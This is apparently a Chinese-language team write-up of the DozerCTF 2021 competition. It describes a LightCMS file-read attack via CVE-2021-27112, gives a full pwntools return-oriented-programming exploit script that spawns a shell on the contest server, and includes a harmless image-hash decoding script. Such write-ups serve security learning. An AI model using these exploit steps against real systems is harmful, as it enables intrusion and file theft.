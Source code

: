 ```yaml
---
title: Dozerctf2021
comments: true
hide: false
date: 2021-05-30 22:08:38
urlname: dozerctf2021
updated:
password:
tags:
categories: Write-Up
---
```




队伍名称：戈戈哥哥不鸽鸽

<!-- more -->



大师傅们都去打xctf了，几个比赛重时间了，春秋，美团，das。

在几个比赛中疯狂衔接2333

---

## WEB

### 简单域渗透Ⅱ-1

拿到题Lightcms，直接打。目前网上两个洞，一个v跨站脚本漏洞，一个后台RCE漏洞[CVE-2021-27112](http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-27112)

dozer/dozer123登陆后台

![image-20210530221322010](Dozerctf2021/image-20210530221322010.png)

在`内容管理->文章->新建文章内容`处上传文件，抓包得到`/admin/neditor/serve/uploadimage`路由，然后在`/admin/neditor/serve/catchImage`路由读取文件，网上有很多RCE文章，不多阐述。`file_get_contents`直接用file协议读取根目录flag，后来flag被改名了，这里算是前期的做法了。

![image-20210530221927944](Dozerctf2021/image-20210530221927944.png)

![image-20210530221918897](Dozerctf2021/image-20210530221918897.png)

后面即使拿到了shell也没有进一步突破，扫ip还扫错了

![image-20210530230130511](Dozerctf2021/image-20210530230130511.png)



---

### 未完成的网站

猜测点

`./people/{}`和`./download?url={}`

试了下发现过滤了`[]`

然后疯狂被域渗透折磨



---

## PWN

### PwnPwnPwn

Exp:

```python
"""
-*- coding: utf-8 -*-
@File: exp.py
@Author: gyy
@Time: 5.30, 2021
"""
from pwn import *
from LibcSearcher import *
import time, sys, base64
context.os = 'linux'
context.arch = 'amd64'
context.log_level = 'debug'
# p = process('./pwn')
p = remote('1.14.160.21',20001)
main_addr = 0x000000000401281
pop_rdi = 0x0000000000401313
pop_rsi_r15 = 0x0000000000401311
bin_addr = 0x000000000401199
sh_addr = 0x0000000004011F9
sys_addr = 0x000000000401176

payload = b'a'*0x78 + p64(pop_rdi) + p64(0xB16BAD) + p64(bin_addr)
payload += p64(pop_rdi) + p64(0xBADF00D) + p64(pop_rsi_r15) + p64(0xFEE1DEAD)*2
payload += p64(sh_addr) + p64(sys_addr)
p.sendline(payload)
# gdb.attach(p)
p.interactive()
```

`cat /flag`即可

![image-20210530225342181](Dozerctf2021/image-20210530225342181.png)



---

## MISC

### 不会有人以为re那道才是签到吧

![image-20210530222649894](Dozerctf2021/image-20210530222649894.png)

手比较快



---

### 做个问卷吧

非常简单



---

### funny_pixel

听说国赛有一个running_pixel?

那就类比一下，发现几张图片类似，看一下md5，发现一共只有6种md5。猜测是二进制，提出来前16章，二进制为

`01000100`==`d`

`01101111`==`o`

很明显思路正确，写脚本就行了

exp：

```python
"""
-*- coding: utf-8 -*-
@File: exp.py
@Author: gyy
@Time: 5月 30, 2021
"""
import hashlib
import os

path = "./"
files = os.listdir(path)


def get_file_md5(fname):
    m = hashlib.md5()   #创建md5对象
    with open(fname,'rb') as fobj:
        while True:
            data = fobj.read(4096)
            if not data:
                break
            m.update(data)  #更新md5对象

    return m.hexdigest()    #返回md5对象

def get_flag():
    list0 = ['5baa9d8a0912ddfbd29ac3786ef859f8','d63f8a4a7a1d6c8b8f04e7d73797edf8','6002507730ab969502579b66e9fda4b9']
    list1 = ['86f2fd64a8d1f6bfa0728be9e97a4a72','000b14c847091094ae2777614f16f4c6','4d8a4db35c3a27b36865750319f7cdfd']
    result = ""
    with open('result.txt','r') as f:
        text = f.read().split("\n")
        time = 0
        for i in text:
            if i in list0:
                result += "0"
            else:
                result += "1"
            time += 1
            if time%8 == 0:
                result += " "

    result = result.split(" ")
    print(result)
    res = ""
    for i in result:
        res += chr(int(i,2))
    print(res)


if __name__ == '__main__':
    result = {}
    res = []
    for pic_file in files:
        if ".png" not in pic_file:
            continue
        pic = get_file_md5(pic_file)
        result[int(pic_file.split(".png")[0])] = pic
    result = sorted(result.items(), key=lambda item: item[0])
    print(result)
    with open("result.txt", "w+") as f:
        for i in result:
            if i[1] not in res:
                res.append(i[1])
            f.write(i[1]+"\n")
    print("Done!")
    print(res)
    get_flag()
```

![image-20210530223305341](Dozerctf2021/image-20210530223305341.png)

